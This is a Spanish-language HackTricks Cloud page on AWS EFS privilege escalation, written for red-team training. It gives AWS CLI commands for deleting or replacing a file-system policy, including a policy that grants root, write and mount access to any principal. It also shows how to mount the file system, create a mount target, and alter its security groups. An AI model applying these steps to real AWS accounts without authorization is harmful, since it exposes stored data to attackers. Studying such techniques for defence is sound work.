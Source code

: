 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Más **info sobre EFS** en:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Recuerda que para montar un EFS necesitas estar en una subred donde el EFS esté expuesto y tener acceso a él (grupos de seguridad). Si esto está sucediendo, por defecto, siempre podrás montarlo, sin embargo, si está protegido por políticas de IAM, necesitas tener los permisos adicionales mencionados aquí para acceder a él.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Con cualquiera de esos permisos, un atacante puede **cambiar la política del sistema de archivos** para **darte acceso** a él, o simplemente **eliminarlo** para que se otorgue el **acceso por defecto**.

Para eliminar la política:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Para cambiarlo:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Con este permiso, un atacante podrá **montar el EFS**. Si el permiso de escritura no se otorga por defecto a todos los que pueden montar el EFS, solo tendrá **acceso de lectura**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Los permisos adicionales `elasticfilesystem:ClientRootAccess` y `elasticfilesystem:ClientWrite` se pueden usar para **escribir** dentro del sistema de archivos después de que esté montado y para **acceder** a ese sistema de archivos **como root**.

**Impacto Potencial:** Privesc indirecto al localizar información sensible en el sistema de archivos.

### `elasticfilesystem:CreateMountTarget`

Si un atacante está dentro de una **subred** donde **no existe un objetivo de montaje** del EFS. Podría simplemente **crear uno en su subred** con este privilegio:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Privesc indirecto al localizar información sensible en el sistema de archivos.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

En un escenario donde un atacante descubre que el EFS tiene un objetivo de montaje en su subred pero **ningún grupo de seguridad permite el tráfico**, podría simplemente **cambiar eso modificando los grupos de seguridad seleccionados**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Privesc indirecto al localizar información sensible en el sistema de archivos.

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
